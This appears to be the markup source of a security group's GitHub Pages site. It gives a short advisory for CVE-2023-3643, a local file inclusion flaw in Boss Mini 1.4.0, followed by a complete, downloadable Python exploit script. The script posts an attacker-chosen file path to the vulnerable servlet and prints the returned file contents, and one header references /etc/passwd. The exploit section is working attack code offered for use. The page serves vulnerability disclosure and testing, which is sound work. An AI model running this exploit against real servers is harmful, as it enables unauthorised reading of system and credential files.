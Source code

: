 ```yaml
---
layout: default
---
```


- # Research
  <details><summary>Exploring IDOR with Bitwise Operators</summary>
  <br>
  <blockquote>by vpr</blockquote></details>

<br>
- #  CVE
  <details><summary>CVE-2023-3643 <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3643" target="_blank"> <!></a></summary>
  <br><blockquote>
  A vulnerability was found in Boss Mini 1.4.0 Build 6221. It has been classified as critical. This affects an unknown part of the file boss/servlet/document. The manipulation of the argument path leads to file inclusion. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-233889 was assigned to this vulnerability.</blockquote></details>

<br>
- # Exploit
  <details><summary>CVE-2023-3643</summary>
  <br>
  <pre>
  <code id="code-block">
  # Exploit Title: Boss Mini 1.4.0 (Build 6221) - Local File Inclusion (LFI)
  # Date: 07/12/2023
  # Exploit Author: [nltt0] (https://github.com/nltt-br))
  # CVE: CVE-2023-3643


  '''
  _____       _                              _____ 
  /  __ \     | |                            /  ___|
  | /  \/ __ _| | __ _ _ __   __ _  ___  ___ \ `--. 
  | |    / _` | |/ _` | '_ \ / _` |/ _ \/ __| `--. \
  | \__/\ (_| | | (_| | | | | (_| | (_) \__ \/\__/ /
  \____/\__,_|_|\__,_|_| |_|\__, |\___/|___/\____/ 
                              __/ |                 
                            |___/                  

  '''

  from requests import post 
  from urllib.parse import quote
  from argparse import ArgumentParser

  try:
      parser = ArgumentParser(description='Local file inclusion [Boss Mini]')
      parser.add_argument('--domain', required=True, help='Application domain')
      parser.add_argument('--file', required=True, help='Local file')

      args = parser.parse_args()
      host = args.domain
      file = args.file
      url = '{}/boss/servlet/document'.format(host)
      file2 = quote(file, safe='')

      headers = {
          'Host': host,
          'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
          'Content-Type': 'application/x-www-form-urlencoded',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange',
          'Referer': 'https://{}/boss/app/report/popup.html?/etc/passwd'.format(host)
      }


      data = {
          'path': file2
      }

      try:
          req = post(url, headers=headers, data=data, verify=False)
          if req.status_code == 200:
              print(req.text)

      except Exception as e:
          print('Error in {}'.format(e))   
        

  except Exception as e:
      print('Error in {}'.format(e))
  
  
  </code></pre>
  <button onclick="downloadCode()">Download</button>
  
  </details>

<script>
  function downloadCode() {
    const codeContent = document.getElementById("code-block").innerText;
    const blob = new Blob([codeContent], { type: 'text/plain' });
    const url = URL.createObjectURL(blob);
    const a = document.createElement("a");
    a.href = url;
    a.download = "CVE-2023-3643.py";
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    URL.revokeObjectURL(url);
  }
</script>


<br>
<br>
<a href="https://www.linkedin.com/company/calangos-security/" target="_blank"><img src="/assets/images/calangoss-icon2.png" width="100" height="68" style="display: block;
  margin-left: auto;
  margin-right: auto;
  ">
</a>